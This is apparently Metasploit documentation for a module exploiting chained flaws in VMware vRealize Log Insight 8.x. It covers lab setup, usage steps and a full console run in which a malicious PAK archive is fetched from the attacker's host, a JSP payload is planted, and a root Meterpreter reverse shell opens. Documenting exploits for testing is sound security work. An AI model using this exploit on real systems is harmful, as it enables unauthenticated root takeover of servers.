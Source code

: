 ## Vulnerable Application

vRealize Log Insight provides intelligent log management for infrastructure and applications
in any environment. This highly scalable log management solution delivers intuitive, actionable
dashboards, sophisticated analytics, and broad third-party extensibility across physical, virtual,
and cloud environments.

VMware vRealize Log Insights versions v8.x contain multiple vulnerabilities, such as
directory traversal, broken access control, deserialization, and information disclosure.
When chained together, these vulnerabilities allow a remote, unauthenticated attacker to
execute arbitrary commands on the underlying operating system as the root user.

This module exploits multiple vulnerabilities for achieving unauthenticated remote code execution
on the VMware vRealize Log Insight version `v8.x`. Module achieves code execution via triggering a
`RemotePakDownloadCommand` command via the exposed thrift service after obtaining the node token by
calling a `GetConfigRequest` thrift command. After the download, it will trigger a `PakUpgradeCommand` for
processing the specially crafted PAK archive, which then will place the JSP payload under a
certain API endpoint (pre-authenticated) location upon extraction for gaining remote code execution.

The original analysis and POC is done by the Horizon3.ai Team.
Check [here](https://www.horizon3.ai/vmware-vrealize-log-insight-vmsa-2023-0001-technical-deep-dive/) for full disclosure writeup.

## Testing
For installing the vulnerable version follow the steps below,
1. To obtain the vulnerable OVA image, first create a customer account at
[VMware](https://customerconnect.vmware.com/account-registration) (trial license is sufficient)
2. Navigate [here](https://customerconnect.vmware.com/downloads/details?downloadGroup=VRLI-8102&productId=1351) and download `Virtual Appliance`
3. Import the OVA image into a virtualization software (VirtualBox is used for this case).
4. Start the `VMware_vCenter_Log_Insight` image and proceed with the initial installation steps through the web interface of the product.

After these steps, the web portal (port 80/443) and Apache thrift service (port 16520) should be accessible.

## Verification Steps

1. msfconsole
2. Do: `use exploit/linux/http/vmware_vrli_rce`
3. Do: `set RHOST [IP]`
4. Do: `check`

## Options

### THRIFT_PORT
This is the Thrift service port for VMware xRealize Log Insight.

### THRIFT_TIMEOUT
This value represents the timeout duration for thrift service responses.

## WaitForResponseTimeout
This value represents timeout duration in seconds for RemotePakDownload command response.

## WaitForUpgradeDuration
This value represents the duration of wait after issuing a PakUpgrade command.

## Scenarios

```
msf6 > use exploit/linux/http/vmware_vrli_rce 
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/vmware_vrli_rce) > set rhosts 192.168.56.107
rhosts => 192.168.56.107
msf6 exploit(linux/http/vmware_vrli_rce) > set lhost 192.168.56.1 
lhost => 192.168.56.1
msf6 exploit(linux/http/vmware_vrli_rce) > set srvhost 192.168.56.1 
srvhost => 192.168.56.1
msf6 exploit(linux/http/vmware_vrli_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] 192.168.56.107:443 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.56.107:443 - Checking if 192.168.56.107:443 can be exploited.
[+] 192.168.56.107:443 - The target appears to be vulnerable. VMware XRLI Version: 8.10
[*] 192.168.56.107:443 - Starting Payload Server
[*] 192.168.56.107:443 - Using URL: http://192.168.56.1:8080/IssIrRP.tar
[*] 192.168.56.107:443 - Fetching thrift config...
[+] 192.168.56.107:443 - Obtained node token: 015dd665-9f84-4efc-9fd2-1ea2e467dbf8
[*] 192.168.56.107:443 - Sending getNodeType...
[*] 192.168.56.107:443 - Sending RemotePakDownloadCommand...
[*] 192.168.56.107:443 - Sending PakUpgradeCommand...
[*] 192.168.56.107:443 - Encoding the payload as JSP
[*] 192.168.56.107:443 - Malicious TAR payload created (117760 bytes)
[+] 192.168.56.107:443 - Payload requested by 192.168.56.107:443, sending...
[+] 192.168.56.107:443 - PakUpgrade request is successful
[*] 192.168.56.107:443 - Waiting 2 second for PakUpgrade...
[*] 192.168.56.107:443 - 192.168.56.107:443 - Triggering JSP payload...
[*] Sending stage (3045380 bytes) to 192.168.56.107
[+] 192.168.56.107:443 - Deleted /tmp/IssIrRP.pak
[+] 192.168.56.107:443 - Deleted /usr/lib/loginsight/application/3rd_party/apache-tomcat-8.5.82/webapps/ROOT/loginsight/api/api-v5-documentation.jsp
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.107:57010) at 2023-09-07 19:48:14 +0200
[*] 192.168.56.107:443 - Server stopped.

meterpreter > getuid 
Server username: root
meterpreter > sysinfo 
Computer     : 192.168.56.107
OS           : VMware Photon OS 3.0 (Linux 4.19.256-1.ph3)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 

```
